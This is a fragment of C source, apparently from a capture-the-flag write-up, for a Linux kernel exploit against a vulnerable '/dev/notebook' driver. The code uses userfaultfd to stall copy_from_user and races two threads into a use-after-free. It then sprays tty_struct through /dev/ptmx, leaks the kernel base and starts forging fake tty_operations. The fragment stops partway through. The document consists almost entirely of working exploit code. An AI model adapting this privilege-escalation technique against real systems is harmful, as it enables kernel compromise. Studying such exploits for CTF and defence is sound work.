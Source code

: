```c

void note_write(int idx, void *buf) {
    write(fd, buf, idx);
}

void stuck() {
    puts("[+] Stuck");  // stuck to prevent copy_from_user
    sleep(100000);
}

void add_thread_func() {
    sem_wait(&add_sem);
    add(0, 0x60, uffd_buf);
}

void edit_thread_func() {
    sem_wait(&edit_sem);
    edit(0, 0, uffd_buf);
}

int main() {
    int tty_fd;
    size_t tty_buf[0x2e0], orig_tty_buf[0x2e0];
    struct tty_operations fake_tty_ops;
    save_status();
    bind_cpu(0);

    fd = open("/dev/notebook", O_RDWR);
    if (fd < 0) {
        perror("open fd");
        exit(EXIT_FAILURE);
    }
    sem_init(&add_sem, 0, 0);
    sem_init(&edit_sem, 0, 0);

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfaultfd_with_default_handler(&monitor_thread, uffd_buf, 0x1000, stuck);

    add(0, 0x20, "add");
    edit(0, 0x2e0, "tty");

    pthread_create(&add_thread, NULL, (void *)add_thread_func, NULL);
    pthread_create(&edit_thread, NULL, (void *)edit_thread_func, NULL);

    sem_post(&edit_sem);
    sleep(1);
    sem_post(&add_sem);
    sleep(1);

    puts("[+] UAF");  // 0->ptr = freed_chunk

    tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    note_read(0, tty_buf);
    memcpy(orig_tty_buf, tty_buf, sizeof(tty_buf));
    kernel_offset = tty_buf[3] - 0xe8e440 - kernel_base;
    kernel_base = kernel_base + kernel_offset;
    printf("[+] kernel_base = 0x%lx\n", kernel_base);

    // fake tty_struct
    add(1, 0x20, "fake tty ops");
    edit(1, sizeof(struct tty_operations), "fake tty ops");
```